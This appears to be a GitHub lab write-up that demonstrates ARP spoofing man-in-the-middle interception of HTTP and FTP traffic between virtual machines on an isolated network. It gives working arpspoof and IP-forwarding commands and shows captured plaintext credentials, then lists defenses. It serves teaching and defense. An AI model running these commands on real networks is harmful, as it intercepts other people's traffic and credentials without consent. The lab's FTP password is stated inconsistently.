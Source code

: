 # ARP Spoofing Attack: Sniffing HTTP & FTP Traffic

## Objective

Simulate a **Man-in-the-Middle (MitM)** attack using **ARP spoofing** to intercept unencrypted traffic (HTTP and FTP) between two victim machines. Observe how credentials and data can be compromised in plain text.

---

## Lab Setup

Three virtual machines on a VirtualBox internal network `192.168.20.0/24`:

| Role       | OS         | IP Address     |
|------------|------------|----------------|
| Attacker   | Kali Linux | 192.168.20.11  |
| Victim #1  | Windows 10 | 192.168.20.10  |
| Victim #2  | Debian     | 192.168.20.12  |

---

## Services

- **Windows 10** is running:
  - FTP server on port `21` (`ftpuser:ftppass`)
  - HTTP server on port `80` (via Python)
- **Debian** will simulate a victim using both services
- **Kali** is the attacker intercepting traffic

---

## Attack Steps

### 1. Enable IP Forwarding on Kali

Allows Kali to forward traffic between spoofed hosts:

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
````

---

### 2. Launch ARP Spoofing

Spoof both directions so Kali is in the middle:

```bash
sudo arpspoof -i eth1 -t 192.168.20.10 192.168.20.12  # Windows -> Debian
sudo arpspoof -i eth1 -t 192.168.20.12 192.168.20.10  # Debian -> Windows
```

> Replace `eth1` with your internal adapter’s name.

---

### 3. Start Packet Capture

Run Wireshark on Kali and capture on the `eth1` interface.

* Use display filter: `ftp or http` to isolate plaintext protocols

---

### 4. Simulate Victim Activity (Debian)

#### HTTP

```bash
curl http://192.168.20.10
```

#### FTP

```bash
ftp 192.168.20.10
# Username: ftpuser
# Password: ftp
```

---

## Result: Intercepted Data

Captured on Kali:

* **HTTP traffic** is fully visible (URLs, headers, HTML content)
* **FTP credentials** exposed during login:

  ```
  USER ftpuser
  PASS ftp
  ```

---

## How ARP Spoofing Works

* ARP is a stateless protocol - it trusts any reply
* Kali sends fake ARP replies to victims, saying:

  * "Windows, I'm Debian"
  * "Debian, I'm Windows"
* Both victims update their ARP cache, believing Kali is the other
* All their traffic now routes through Kali
* IP forwarding makes the attack invisible (no connection loss)

---

## Defenses Against ARP Spoofing

* Use **static ARP entries** on critical systems
* Employ **Dynamic ARP Inspection (DAI)** on switches
* Encrypt communication:

  * Use **HTTPS** instead of HTTP
  * Use **SFTP/FTPS** instead of FTP
* Monitor network for:

  * ARP table anomalies
  * Duplicate MAC addresses
  * Suspicious traffic patterns

---

## Summary

This attack demonstrates how easy it is to intercept sensitive data on LANs using ARP spoofing - especially over insecure protocols. Encryption and proper network configuration are key to defending against this class of attack.

```

---
